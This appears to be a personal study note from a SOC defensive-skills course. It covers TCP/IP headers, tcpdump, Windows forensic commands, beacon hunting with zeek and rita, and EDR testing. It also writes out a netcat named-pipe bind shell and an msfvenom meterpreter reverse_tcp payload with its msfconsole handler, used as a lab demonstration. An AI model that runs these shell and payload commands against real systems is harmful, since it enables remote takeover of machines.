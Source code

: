 ```yaml
---
dg-publish: true
---
```

[[blue-team]]
- Don't wait for an incident to try tools you have read about.
- How we are going to tell apart the True Positive from the False Positive?
	- Simple: Ask the user but in most mature organization, a change that can trigger alert has to go **Change Request** process first.
	- Context and correlation is key.

## Day 1

![[cards/blue-team/siem/image/SOC Core Skills.png]]
- **Identification** - used to identify chopped packets for re-assembling (Same IP ID).
	- 16 bit - there is 65,536 possible IP-ID values for chopped packets.
- **IP Flags** - 
	- D - Don't fragment this packet.
	- M - More fragment means more fragments are coming (if M does not exist it means it is the last).
	- X - (a troll) known as _evil bit_ hackers must flip the value to 1 that means this packet is malicious.

Right below (think about this as a layer) this is either a TCP Header or UDP Header:
![[SOC Core Skills-1.png]]
- **src and dst port** - we can think about them as rooms in a hotel where hotel is the  destination address and the **rooms are services in your computer** while we are the customers (src address).
- **sequence numbers** - are similar to pages in a book - you receive random pages not starting to page 1 but this is okay as you can easily reassemble it using the page numbers.
- **Acknowledgement Number** - the next sequence of number the sender is expecting to receive.
- **TCP Flags**
	- ACK - constantly acknowledging what has been sent and received by incrementing by 1 or number of bytes received to the sequence number.
	- RST - something went wrong reset start from scratch.
	- SYN - start with synchronization or communication.
	- FIN - that is it comms is over.
	- After communication has been succesfully established it is more ACK ACK ACK.

![[SOC Core Skills.png]]


```
tcpdump -AX -l lo
```

- Snips traffic on loopback interface.
- `-AX` shows the ASCII and the hexdump of packets.

![[SOC Core Skills-2.png]]

```bash
tcpdump -n -r file
```

- `-n` don't resolve hostname
- tshark is now much preferred - [[TShark]]
- TCP/IP model > OSI model - search for steven's four layer model
- For finding malware or any interesting conversation - use the statistics and conversation to find the top "talker" on your endpoint.
	- Then right click and apply as filter to see what they are talking about.
- Statistics - HTTP - request is a must see

 a great reference by professor messer on tcpdump https://danielmiessler.com/p/tcpdump/

An interesting malware:
`mknod backpipe p`

```
/bin/bash 0<backpipe | nc -l 2222 1>backpipe
```

Input from `netcat` is passed around backpipe and then outputted to `bash` and then the output of the command `bash` will be passed around netcat. Think about like when you shake a box with water, it goes from one side to another back and forth.

Think about similar to a reverse shell and a great **reverse engineering a must try at the bottom**:

https://github.com/strandjs/IntroLabs/blob/master/IntroClassFiles/Tools/IntroClass/LinuxCLI/LinuxCLI.md

## Day 2

###### Windows Forensics
- Start with network connections and then work backwards. WHY because there are fewer network connections than processes to cut through.
- Get your baseline.
- Check processes on a system that is not infected first.
- FOCUS on established and start researching the IPs.


- `net view \\127.0.0.1` - attackers likes to create a _beach head_ when they intially compromised a system, it is a technique (usually network shares) to allow attackers access files for lateral movement or data exfiltration.
	- Get the baseline - what share is normal what is not?
- `net session` - checks who is talking to our system.
- `net use` - what system our current device talking to.
- `netstat -anob` - shows network connections with associated PID and proces name.
	- `-a` display active TCP connections and shows TCP and UDP ports that the computer is listening.
	- `-n` display active TCP connections but no name resolutions.
	- `-o` display active TCP connections including PID.
	- `-b` display the executable involved in creating each connections or listening port.
	- `-f` resolves port and address.
- `tasklist /svc` - shows image name, pid and their services.
	- `svchost.exe` is a service that starts other services.
	- `/V` shows image, pid and `.dll` loaded.
	- `/m /fi "pid eq 4444"` 
	- `/m mtdll.dll`

![[SOC Core Skills-3.png]]

- `wmic process get name,parentprocessid,processid`

![[SOC Core Skills-4.png]]
#### Demonstrations
---
Creating a malware then pass it to Windows via curl:

```bash
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=<YOUR LINUX IP> lport=4444 -f exe -o /tmp/TrustMe.exe
```

1. `msfconsole -q`
2. `use exploit/multi/handler`
3. `set PAYLOAD windows/meterpreter/reverse_tcp`
4. `set LHOST 10.200.200.7`
5. `exploit`
6. Run the .exe on Windows.

`netstat -naob`:

![[SOC Core Skills-5.png]]

using `wmic` command:

![[SOC Core Skills-6.png]]

- https://github.com/strandjs/IntroLabs/blob/master/IntroClassFiles/Tools/IntroClass/WindowsCLI/WindowsCLI.md - reference
- deepbluecli - have a look


SOME AD attacks & defend - https://www.youtube.com/watch?v=rSgj-oMxG0g

WINDOWS FORENSICS - https://www.youtube.com/watch?v=7Z-Su-jkUnQ

## Day 3

- **Beacons** - some backdoors have a very strong “heartbeat”. This is where a backdoor will constantly reconnect to get commands from an attacker at a specific interval
- Server logs then check the IP address in tools such IP database but attackers can bounce off traffic to CDNs known as **domain fronting**.
- The use of tools/wisdom to get to the top of the pyramid - _data knowledge information pyramid_.
	- When looking for something it is a good idea to consult the _CIS benchmark_. A lot of times a.k.a the manual.
	- ![[SOC Core Skills-7.png]] hit it with nessus or NUCLI much preferred and watch the logs.
	- use vendor hardening guide, or any third paty source for securing the app.
	- IT'S TIME TO DIG DEEP!
	- builtwith website to know what company is builtwith. FULL RECON,
		- site: risebroadband.com 
		- remove `- www` to see somethind different. (Discovered ADFS tool - now we can use this to our advantage in interviews)
		- Then remove `adfs` look it up and say be **familiar** with adfs - familiar and how to secure them.
		- look for closed connections on memory analysis.
	- If you see file explorer.exe as the one who runs an image it means a user clicks it.
- zeek for network analysis.
	- Due to encoding, obsfucation - we should rely on **context**. and not on signature based this makes zeek good.
	- But what about intervals? attackers could connect or perform their malicious activities in small, medium, large intervals - then it would be tough unlike brute-forcing where in it's 0.5 ms to 1 second.
		- The key is put it in a **course of a day** then add up the amount:  

![[SOC Core Skills-8.png]]
- But what about normal services that does this such as Google or Microsoft?
	- rita allows us to write a whitelist and then we can look at the number of connections then compare it backwards: (zeek then feed it to rita).

![[SOC Core Skills-9.png]]
- There is no "False Positives" it's a tuning problem.
- Do research on UABA

![[SOC Core Skills-10.png]]

alexaj

## Day 4

- Properly Powershell and command line logging.
- Bluespawn is a great (non-production) EDR - it has monitor mode which means don't block it let me see it.
- Evaluate EDR with Atomic Red Team.
- In vulnerability management think about focusing on vulnerabilities found on multiple systems not focusing on vulnerabilities found on IP addresses and ranges (grouping) then address vulnerabilities on automated fashion.
- Pentest web apps regularly test them - nikto, Automatic Web Security Scanner (W3AF), and Zed Attack Proxy
